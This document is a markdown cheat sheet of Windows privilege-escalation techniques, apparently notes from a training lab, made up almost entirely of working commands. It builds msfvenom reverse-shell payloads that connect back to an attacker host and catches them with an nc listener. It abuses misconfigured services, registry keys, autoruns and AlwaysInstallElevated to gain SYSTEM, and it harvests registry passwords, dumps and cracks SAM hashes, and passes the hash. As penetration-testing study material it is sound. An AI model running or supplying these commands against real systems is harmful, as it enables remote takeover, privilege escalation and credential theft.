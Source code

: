 # attacking windows

### generating reverse shell

On kali:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

(this sets an SMB file share service on kali)

On windows:

```bash
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```

(this uses SMB file sharing service to transfer files from Kali)

On kali:

```bash
sudo nc -nvlp 53
```

On windows:

```
C:\PrivEsc\reverse.exe
```

### insecure service permissions

Check user account perms on "daclsvc" service

```
accesschk.exe /accepteula -uwcqv user daclsvc
```

It has `SERVICE_CHANGE_CONFIG`, meaning that it has permissions to change the service config.

Check is service is running with SYSTEM privileges

```
sc qc daclsvc
```

Check `SERVICE_START_NAME` field and it says `LocalSystem`

Change binary path name:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

### unquoted service path

Query `unquotedsvc` service:

```
sc qc unquotedsvc
```

Check if it runs with SYSTEM privileges (SERVICE_START_NAME), also check if BINARY_PATH_NAME is unquoted and contains spaces

Check permissions for Unquoted Path Service:

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 
```

BUILTIN\Users group is allowed to write to the directory.

Copy exploit:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

Run service:

```
net start unquotedsvc
```

### weak registry perms

```
sc qc regsvc
```

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Check if registry service is writable by INTERACTIVE group (all logged-on users)

Overwrite ImagePath registry key to reverse.exe:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

### insecure service executables

check if service is running as system:

```
sc qc filepermsvc
```

then check if the BINARY_PATH_NAME is writeable:

```
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermsservice.exe"
```

if it is, you can replace filepermsservice.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

### autoruns

query registry for Autoruns:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

check if they are writable:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

replace program.exe with reverse.exe:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### always install elevated

check if keys are set to 0x1:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

kali: generate a reverse shell with .msi file format:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

transfer to windows, run this cmd:

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### passwords in registry

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

use winexe to spawn cmd

```
winexe -U 'admin%password' //10.10.241.122 cmd.exe
```

### saved creds

List saved creds:

```
cmdkey /list
```

on Kali:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### SAM

copy SAM and SYSTEM files to kali.

```bash
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

```
hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

### pass the hash

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.180.131 cmd.exe 
```

